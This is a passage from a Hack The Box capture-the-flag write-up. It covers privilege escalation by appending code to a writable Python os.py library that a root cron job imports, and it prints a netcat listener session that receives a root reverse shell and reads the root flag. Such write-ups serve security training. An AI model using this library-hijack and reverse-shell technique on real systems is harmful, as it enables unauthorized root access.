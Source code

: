 ### 4.1 Using Pspy

After executing pspy on our victim host,
```
2024/08/16 23:40:01 CMD: UID=0    PID=3203   | /usr/bin/python /opt/server_admin/reporter.py 
2024/08/16 23:40:01 CMD: UID=0    PID=3202   | /bin/sh -c /opt/server_admin/reporter.py 
2024/08/16 23:40:01 CMD: UID=0    PID=3201   | /usr/sbin/CRON -f 
```
I found this suspicious reporter.py


reporter.py imports os, but does not use it. So I couldn’t modify the script to execute some commands. (I also didn’t have write privielge) After searching for a while, I noticed there is a potential risk if a non-privileged user can modify the library itself.

> So I looked after /usr/lib/python2.7/os.py:

The mechanism is pretty simple:

1. Loading python module is actually compiling it.
2. So if we modify os.py, modified part of code will be executed every time os is being imported.
3. We can simply add some scripts at the end of the os.py!

So I modified the end of the file like this:

(photo)

And waited calmly… (I thought importing os in os.py would not work and tried to do it again, but it worked anyway)

```
┌──(hosan㉿kali)-[~]
└─$ nc -lvnp 8080
listening on [any] 8080 ...
connect to [10.10.16.14] from (UNKNOWN) [10.10.10.123] 38182
# whoami
whoami
root
# cat /root/root.txt
cat /root/root.txt
667053ead4657d95ce354e508e17ec07
```
And that’s pretty much it!

## 5. Review

While I didn’t mention it earlier, there were numerous rabbit holes, such as the /upload endpoint, which initially seemed like a promising vector for the initial foothold.


However, this led to some challenges and required a bit of perseverance to find the correct path.


Overall, this machine serves as valuable preparation for OSCP, given the extensive enumeration required.


It could be improved by more clearly distinguishing between legitimate paths and false positives.

---
## Source

- Hack The Box 2024
- Me!